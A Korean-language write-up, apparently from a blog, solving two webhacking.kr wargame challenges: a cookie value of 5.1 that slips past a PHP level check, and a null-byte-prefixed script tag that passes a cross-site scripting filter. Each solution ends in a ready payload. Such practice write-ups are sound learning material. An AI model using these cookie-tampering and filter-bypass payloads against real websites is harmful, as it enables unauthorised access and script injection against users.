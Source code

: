 # webhacking.kr write up
블로그가 너무 느려서 마크다운으로 갈아탔다

## prob 1
```php
$password="????";
if(eregi("[^0-9,.]",$_COOKIE[user_lv])) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>=6) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>5) @solve();
echo("<br>level : $_COOKIE[user_lv]");
```
`user_lv`가 6 이상이면 `user_lv`가 1로 되돌아가고, `user_lv`가 5보다 크면 풀리게 된다.
5 < `user_lv` < 6 이면 된다는 것이다. `user_lv`가 5.xx면 풀릴 것 같다.
### payload
`document.cookie = "user_lv=5.1"`

## prob 23
![prob23](./img/prob23.png)<br>
`Your mission is to inject <script>alert(1);</script>`이라고 한다.
그냥 GET으로 넘길 때 code값 맨 앞에 NULL(%00)을 추가해 주면 풀린다.
### payload
`http://webhacking.kr/challenge/bonus/bonus-3/index.php?code=%00<script>alert(1);</script>`
